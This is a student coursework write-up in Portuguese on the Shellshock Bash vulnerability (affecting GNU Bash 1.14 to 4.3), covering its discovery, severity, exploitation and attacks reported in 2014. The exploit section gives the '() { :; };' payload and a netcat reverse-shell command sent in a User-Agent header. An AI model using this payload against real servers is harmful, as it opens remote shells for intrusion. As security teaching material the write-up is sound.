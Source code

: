 
# Trabalho realizado na Semana #3

## Identificação

- A vulnerabilidade foi encontrada na forma como a Bash avalia variáveis de ambiente criadas.
- Um atacante poderia usar esta vulnerabilidae para sobrepor-se ou contornar restrições do ambiente para executar comandos da shell.
- Certos serviços e aplicações permitem que atacantes não autenticados providenciem variáveis de ambiente, permitindo-lhes aproveitar-se deste problema.
- Esta vulnerabilidade da Bash, também conhecida de "Shellshock", afeta as versões GNU Bash 1.14 até 4.3.

## Catalogação

- Esta vulnerabilidade foi descoberta pelo investigador de segurança Stéphane Chazelas, da firma Akamai, a 12 de setembro de 2014.
- De acordo com o "National Institute of Standards and Technology", esta vulnerabilidade obteve uma pontuação de severidade de 10/10.
- Esta vulnerabilidade resulta numa completa perda de integridade e proteção do sistema, resultando no acesso total aos ficheiros do sistema.
- Para além disso, esta vulnerabilidade não requer muito conhecimento técnico nem qualquer tipo de autenticação para ser realizada. 

## Exploit

- Para realizar este ataque, deve ser atribuído um valor específico a uma variável de ambiente ou um cabeçalho de um pedido HTTP.
- O valor deve ser `"() { :; }; {cmd}"` onde `{cmd}` é substitúido pelos comandos a serem corridos na bash.
- Fazendo um pedido HTTP, atribuindo ao `User-Agent` o valor acima com `/bin/nc -e /bin/sh {ip} {port}`, conseguimos o acesso a uma reverse shell através do comando netcat.

## Ataques

- A 25 de setembro de 2014, a Kasperky Labs reportou que houve três alvos de ataques DDos e exploração de vulnerabilidades.
- A 26 de setembro do mesmo ano, uma "botnet" foi reportada, como responsável por ataques de DDoS à Akamai Technologies.
- Também nesse dia, a Incapsula reportava 17,400 ataques em mais de 1,800 domínios web, 55% vindos da China e dos EUA.